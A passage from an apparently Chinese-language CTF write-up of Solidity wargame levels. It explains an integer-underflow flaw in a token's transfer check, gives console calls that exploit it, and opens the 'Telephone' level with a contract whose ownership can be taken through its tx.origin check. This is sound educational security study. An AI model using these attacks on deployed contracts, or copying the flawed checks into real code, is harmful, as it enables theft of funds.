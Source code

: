 ```solidity
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

漏洞点

```solidity
require(balances[msg.sender] - _value >= 0);
balances[msg.sender] -= _value;
balances[_to] += _value;

```

表达式 balances[msg.sender] - _value 先计算,比如这里初始余额为20，转入21的value。

就会变成20-21 = -1

但是由于是uint不存在负数，根据计算机补码的显示规则会显示为一个超大的整数，因此balances[msg.sender]会是一个超级大数字。

攻击：

await contract.transfer('0xEEC56C8d81E9231Ac214096c0a251a0948D69aE3',21)

查看

await contract.balanceOf(player)

# 2025-08-20

## 4.Telephone

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
